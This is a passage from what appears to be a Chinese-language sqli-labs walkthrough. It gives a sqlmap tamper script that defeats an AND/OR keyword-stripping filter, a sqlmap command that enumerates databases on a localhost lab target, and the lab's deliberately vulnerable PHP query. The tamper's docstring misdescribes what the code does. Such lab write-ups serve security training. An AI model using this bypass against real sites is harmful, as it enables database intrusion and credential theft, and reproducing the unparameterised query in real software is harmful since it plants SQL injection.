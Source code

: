 ```python
def tamper(payload, **kwargs):
    """
    Add an inline comment (/**/) to the end of all occurrences of (MySQL) "information_schema" identifier

    >>> tamper('and or')
    'anandd oorr'
    """

    retVal = payload

    if payload:
        retVal = re.sub(r"(?i)(and)", r"anandd", re.sub(r"(?i)(or)", "oorr", payload))

    return retVal
```
1. 另存为xx.py
2. 使用sqlmap调用该tamper
> sqlmap -u "http://127.0.0.1/sqlilabs2/Less-25/?id=1" --tamper "xx.py" --technique E --threads 10 --dbs --batch

## 第二十五a关 基于GET盲注整型单引号-你的OR及AND归我所有

### 源码审计
```php
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);

	if($row)
	{
  		echo "<font size='5' color= '#99FF00'>";	
	  	echo 'Your Login name:'. $row['username'];
		//echo 'YOU ARE IN ........';	  	
		echo "<br>";
	  	echo 'Your Password:' .$row['password'];
	  	echo "</font>";
  	}
	else 
	{
		echo '<font size="5" color="#FFFF00">';
		//echo 'You are in...........';
		//print_r(mysql_error());
		//echo "You have an error in your SQL syntax";
		echo "</br></font>";	
		echo '<font color= "#0000ff" font size= 3>';	
	
	}
}
	else 
{ 
	echo "Please input the ID as parameter with numeric value";
}

function blacklist($id)
{
	$id= preg_replace('/or/i',"", $id);			//strip out OR (non case sensitive)
	$id= preg_replace('/AND/i',"", $id);		//Strip out AND (non case sensitive)
	
	return $id;
}
```
